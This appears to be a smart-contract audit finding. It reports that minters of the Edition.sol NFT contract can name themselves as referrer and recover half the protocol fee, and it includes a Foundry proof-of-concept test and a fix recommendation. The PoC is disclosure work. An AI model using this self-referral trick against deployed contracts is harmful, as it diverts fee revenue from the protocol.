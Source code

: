 Deep Ultraviolet Hamster

high

# Users can mint tokens by paying half the fee

## Summary

Users can mint tokens by paying half the fee

## Vulnerability Detail

The contract `Edition.sol` has a `mint( )` function that lets users mint a token. It also allows users to add a `referrer_` address to split the protocol fee with.
A buyer who wants to mint an NFT can pay half the fee by mentioning their own address as the `referrer` address. This will give them back half of the protocol fee they paid. Therefore, **only paying half the fee to mint a token**

*Proof of Concept :*

<details>
<summary> testsuite </summary>

paste this in the `Edition.t.sol` testsuite

This test will give two scenarios where a minter does not specify the `referrer` address and specifies themselves as the `referrer` address

```javascript

function test_exploited_referrer() public {
        address alice = makeAddr("minter");
        vm.deal(address(alice), 0.0106 ether);

        console.log("[Balance-Before]");
        console.log("minter's balance : %e", address(alice).balance);
        console.log("protocol balance : %e", address(0xc0ffee).balance);
        console.log("creator's balance : %e", address(1).balance);

        //Alice calls mint with her own address as the referrer
        vm.prank(alice);
        edition.mint{value: 0.0106 ether}(
            address(alice),
            1,
            1,
            address(alice),
            new bytes(0)
        );

        console.log("[Balance-After]");
        console.log("minter's balance : %e", address(alice).balance);
        console.log("protocol balance : %e", address(0xc0ffee).balance);
        console.log("creator's balance : %e", address(1).balance);
    }

    //This is a simulation of how a mint tx would be if alice didnt add her own address as the referrer
    function test_no_referrer() public {
        address alice = makeAddr("minter");
        vm.deal(address(alice), 0.0106 ether);

        console.log("[Balance-Before]");
        console.log("minter's balance : %e", address(alice).balance);
        console.log("protocol balance : %e", address(0xc0ffee).balance);
        console.log("creator's balance : %e", address(1).balance);

        vm.prank(alice);
        edition.mint{value: 0.0106 ether}(
            address(alice),
            1,
            1,
            address(0),
            new bytes(0)
        );

        console.log("[Balance-After]");
        console.log("minter's balance : %e", address(alice).balance);
        console.log("protocol balance : %e", address(0xc0ffee).balance);
        console.log("creator's balance : %e", address(1).balance);
    }

```
</details>

Consider the price of the token to mint to be `0.01 ether` and the protocol fee is `0.0006 ether`
For the ease of the PoC let us assume the minter (alice) has only `0.0106 ether`
where `0.01 ether` is sent to the creator and `0.0006 ether` is sent to the protocol when there is no `referrer`
Once minted alice must have 0 balance.

But if alice mentions her own address as the `referrer` she gets `0.0003 ether` back as the `referrer`'s share allowing alice to pay only  half the protocol fee

## Impact

Since it can be done by anyone, the protocol would lose out on a lot of revenue made by fee. 

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L232

## Tool used

Manual Review

## Recommendation

Add input validation for `referrer` address